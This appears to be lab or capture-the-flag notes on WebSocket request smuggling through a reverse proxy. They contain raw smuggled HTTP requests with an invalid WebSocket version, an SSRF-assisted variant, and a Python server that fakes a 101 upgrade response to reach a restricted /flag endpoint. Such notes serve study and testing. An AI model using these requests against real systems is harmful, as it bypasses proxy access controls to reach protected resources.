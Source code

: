 - Main headers to upgrade to websocket
```http
Connection: Upgrade
Upgrade: websocket
Sec-WebSocket-Version: 13
Sec-WebSocket-Key: 03iqbEuwWluzcyko8CcGDQ==
```

- If there is a proxy between webserver and browser, then it is possible to connect to webserver directly by sending an incorrect socket upgrade request to avoid any access restrictions placed by the proxy

-  send an upgrade request with an invalid `Sec-Websocket-Version` header.
```http
Connection: Upgrade \r\n
Upgrade: websocket \r\n
Sec-WebSocket-Version: 777\r\n
Sec-WebSocket-Key: 03iqbEuwW1uzcyko8CcGDQ==\r\n
\r\n
```

Eg. 
```http
GET /socket HTTP/1.1
Host: MACHINE_IP:8001
Sec-WebSocket-Version: 777
Upgrade: WebSocket
Connection: Upgrade
Sec-WebSocket-Key: nf6dB8Pb/BLinZ7UexUXHg==

GET /flag HTTP/1.1
Host: MACHINE_IP:8001

```

- If we can somehow control the response from the webserver, then we can make the webserver return a successful websocket connection message to let the proxy know that websocket connection is successful

- Eg. request
```http

GET /check-url?server=http://10.10.11.155:5555 HTTP/1.1
Host: MACHINE_IP:8002
Sec-WebSocket-Version: 13
Upgrade: WebSocket
Connection: Upgrade
Sec-WebSocket-Key: nf6dB8Pb/BLinZ7UexUXHg==

GET /flag HTTP/1.1
Host: MACHINE_IP:8002

```

- Attacker web server to return successful websocket upgrade for any request
```python
import sys
from http.server import HTTPServer, BaseHTTPRequestHandler

if len(sys.argv)-1 != 1:
    print("""
Usage: {} 
    """.format(sys.argv[0]))
    sys.exit()

class Redirect(BaseHTTPRequestHandler):
   def do_GET(self):
       self.protocol_version = "HTTP/1.1"
       self.send_response(101)
       self.end_headers()

HTTPServer(("", int(sys.argv[1])), Redirect).serve_forever()

```

